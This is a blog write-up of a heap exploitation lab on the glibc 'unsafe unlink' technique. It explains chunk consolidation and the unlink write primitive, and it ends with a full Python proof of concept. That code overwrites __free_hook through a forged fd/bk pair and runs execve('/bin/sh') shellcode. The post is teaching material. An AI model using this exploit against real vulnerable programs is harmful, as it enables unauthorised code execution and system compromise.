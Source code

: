 ```yaml
---
layout: post
title:  "HeapLAB 1 - Unsafe Unlink"
date:   2022-12-07 20:00:01 +0300
categories: jekyll update
---
```


**Contents**
* TOC
{:toc}
## General

`fastbin dup` and `tcache dup` techniques are only relevant for small chunks, that meet `size < 0x80`. \

Another bin, the `unsortedbin`, is relevant for larger allocations - and can be used for various unlink corruption techniques. 

## Exploitation

Old GLIBC versions used a simple macro, without any integrity checks, to unlink a chunk from an `unsortedbin`. \
This technique is called `unsafe unlink`. 

Chunks are considered `small` if their size is less than `0x400`. 

We're given a binary, that allows 2 `malloc` allocations. \ 
I can perform an allocation of two chunks of size `0x88` (so they will be within the `unsortedbin` size), and free the first allocated chunk. \
Recall that freeing the second-allocated chunk would lead to coalescing with the `top_chunk`. 

A trick to view the main heap layout:

```bash
pwndbg> dq mp_.sbrk_base
```

A cool technique is overwriting the `PREV_INUSE` flag of certain chunk, hence treating the previous allocated chunk as a free, which makes it a consolidation candidate. 

Recall that upon consolidation, Malloc first *unlinks the candidate chunk from its bin*, even if the coalescing can be made without any unlinking (not trivial). \
This is because of the de-allocation policy - the newly freed chunk must be added towards the head of the bin. \
Therefore, the candidate is the one being added to the newly freed chunk, creating a large free chunk that is stored within the bin's head.


It basically means the following for chunk `A`:

```c
(A->bk)->fd = A->fd; 
(A->fd)->bk = A->bk;
```

Meaning:

```c
*((A->bk) + 0x10) = A->fd;
*((A->fd) + 0x18) = A->bk;
```

We can also write these rules in a more explicit form, however it might be confusing:

```c
*(*(A + 0x18) + 0x10) = *(A + 0x10)
*(*(A + 0x10) + 0x18) = *(A + 0x18)
```

In case I'd pick the following:

```c
(A->fd) + 0x18 = __free_hook_libc_addr; // A->fd = __free_hook_libc_addr - 0x18
(A->bk) = shellcode_heap_addr; 
```

It implies that `shellcode_heap_addr + 0x10` must be a writeable memory. This may limit our shellcode size to 16 bytes.

The other choice:

```c
(A->bk) + 0x10 = __free_hook_libc_addr; // A->bk = __free_hook_libc_addr - 0x10
(A->fd) = shellcode_heap_addr
```

It implies that `shellcode_heap_addr + 0x18` must be a writeable memory. This is much better, and gives us 8 crucial bytes. 

Note - the shellcode size limitation can be easily bypassed, by adding a `jmp <OFFSET_OF_AT_LEAST 16+8 BYTES>` at the start of the shellcode.

Full POC:

```python
# Prepare execve("/bin/sh") shellcode with a jmp over where the fd will be written.
shellcode = asm("jmp shellcode;" + "nop;"*0x30 + "shellcode:" + shellcraft.execve("/bin/sh"))

chunk_a = malloc(0x88)
chunk_b = malloc(0x88)

fd = p64(heap + 0x20)
bk = p64(libc.sym.__free_hook - 0x10)
prev_size = p64(0x90)
fake_size = p64(0x90)  # clears the PREV_INUSE bit
edit(chunk_a, fd + bk + shellcode + b"A"*(0x70-len(shellcode))+ prev_size + fake_size)

# Overwrite __free_hook via unsafe unlink
free(chunk_b)

# Trigger __free_hook
free(chunk_a)
```

This exploit uses the `backward consolidation` - as the fake `fd, bk` held within the chunk preceding the chunk being freed. \
There is also a `forward consolidation` variant, where the fake `fd, bk` reside within the succeeding chunk. 

Note that in this case, `prev_size` was overwritten to the original value, of `0x90`. \
However, it can be overwritten to other values, hence pointing towards other location fake chunk. \
In particular - it can be set to `0x0`, making the current chunk to be consolidated by itself! 
